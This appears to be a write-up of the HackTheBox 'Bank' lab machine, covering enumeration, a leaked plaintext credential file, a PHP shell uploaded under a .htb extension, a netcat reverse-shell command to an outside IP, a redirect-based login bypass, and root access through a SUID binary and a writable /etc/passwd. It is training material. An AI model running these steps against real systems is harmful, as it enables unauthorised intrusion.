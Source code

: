 ![](images/boxInfo.png)

## nmap 
nmap -sC -sV 10.10.10.29
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-10 20:35 EDT
Nmap scan report for 10.10.10.29
Host is up (0.55s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.61 seconds
```

## gobuster
gobuster didn't gave any results for 10.10.10.29  
all exploits for ISC BIND 9.9.5 using "searchsploit isc bind" were denial of service so not useful  
adding 10.10.10.29 to /etc/hosts as bank.htb and then visiting bank.htb gave a login page

![](images/loginPage.png)

sqlmap didn't gave any results for the login page  
running gobuster for bank.htb gave /assets and /inc which contain some files but they were not useful  
```
/root/go/bin/gobuster dir -u bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

![](images/gobuster.png)

![](images/assets.png)

## plain text creds
visiting /balance-transfer we see a lot of .acc files with username emailID and password in encrypted hex

![](images/balanceTransfer.png)

![](images/encryptedCreds.png)

there might be something important in one of these files so we can try to find a file of different size than others  
most files that i see are between 582-585 in size so i used this command to find a different file
```
curl http://bank.htb/balance-transfer/ | grep -v '/td><td align="right">58'
```

![](images/curl.png)

we can see in the output of above command that "68576f20e9732f1b2edc4df5b8533230.acc" is just 257 bytes  
this file had username emailID and password in plain text  

![](images/acc_creds.png)

## php reverse shell
we can now login using "chris@bank.htb:!##HTBB4nkP4ssw0rd!##" and there is a file upload functionality in /support.php  
trying to upload php file give error that only image upload is allowed 

![](images/phpError.png)

in the source code of /support.php we can see this comment 

![](images/comment.png)

uploading php file with .htb extension allows to execute php code  
after uploading shell.htb we can visit the following URL to get a shell  
```
http://bank.htb/uploads/shell.htb?c=nc 10.10.14.31 8888 -e /bin/bash
```

![](images/reverseShell.png)

## Improper Redirect
we can also upload the shell.htb file without having to login as chris because of improper redirect  
/support.php gets redirected to /login.php if we are not logged in but it also gives the content of /support.php before the redirect  
so we can still upload the file without login by changing the "302 FOUND" to "200 OK" in burp and then access the uploaded file from /uploads/shell.htb  
as curl does not allow redirect by default we can curl /support.php to see that it gives "302 FOUND" but still gives the content

![](images/improperRedirect.png)

# privEsc
## Method 1 - suid
found an uncommon suid binary 
```
find / -perm -u=s 2>/dev/null
```

![](images/privEsc.png)

## Method 2 - /etc/passwd
looking through the results of LinEnum.sh, we can see that we have write access on /etc/passwd  
so we can either change the root password or add another user in /etc/passwd to get root shell  

![](images/etcPasswd_permissions.png)

we can use openssl to generate the encrypted password  

![](images/openssl.png)

![](images/nano_etcPasswd.png)

after adding a new user with root privileges we can either switch user using 'su' or SSH as that user  

![](images/su.png)

![](images/ssh_poison.png)

